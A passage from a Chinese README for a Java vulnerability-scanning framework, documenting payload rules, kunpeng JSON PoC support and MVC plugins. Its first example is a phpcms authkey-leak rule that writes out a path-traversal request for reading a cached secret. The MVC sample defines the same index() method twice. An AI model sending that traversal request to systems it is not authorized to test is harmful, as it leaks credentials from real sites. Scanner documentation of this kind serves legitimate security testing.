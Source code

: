 > 例：phpcms 的 authkey 泄漏漏洞规则
```
        switch (finger) {
            case $phpcms:
                loaders.add(
                        Payloader.builder()
                                .url("/api.php?op=get_menu&act=ajax_getlist&callback=aaaaa&parentid=0&key=authkey&cachefile=..\\..\\..\\phpsso_server\\caches\\caches_admin\\caches_data\\applist&path=admin")
                                .method(HttpRequest.Method.GET)
                                .containsStr("aaaaa")
                                .vuln(
                                        Vulnerable.builder()
                                                .level(Vulnerable.Level.HIGH.getLevel())
                                                .type(Vulnerable.Type.INFO_LEAKAGE.getType())
                                                .title("phpcms authkey泄漏")
                                                .build()) //另一种实现方式
                                .build()
                );
                break;
         }
```


### 3.kunpeng JSON插件

kunpeng 是一个 go 语言编写的 poc 测试框架，这里我对 kunpeng 的 JSON 插件做了一个支持。

只需要按照 kunpeng json 插件的格式规范创建一个 json 文件到 `/resources/json` 目录。

在扫描任务勾选“漏洞攻击模块”时会被调用，或通过 MVC 插件调用 `http://127.0.0.1:8080/apps/json`。

## MVC 插件

位于
> com.trackray.module.mvc

MVC 插件的特点在于，他可以像是在写一个功能一样，而非简单的接口式调用。

MVC 插件需要继承 MVCPlugin 类，并使用 `@Rule`,`@Plugin` 注解。

`@Rule` 注解可以配置`defaultPage`来指定当前插件的首页路径，如果不配置，则默认该插件的首页路径为 `index`。

例子：
```
/*
    默认首页：/plugin/mvc/testplugin/test123
*/
@Rule(defaultPage = "test123")
@Plugin(title = "Test", value = "testplugin" )
public class Test extends MVCPlugin{
    @Override
    public void index() {
        model.setViewName("indexPage");
    }
    @Function(value="test123")
    public void index() {
            model.setViewName("testPage");
    }
}
```
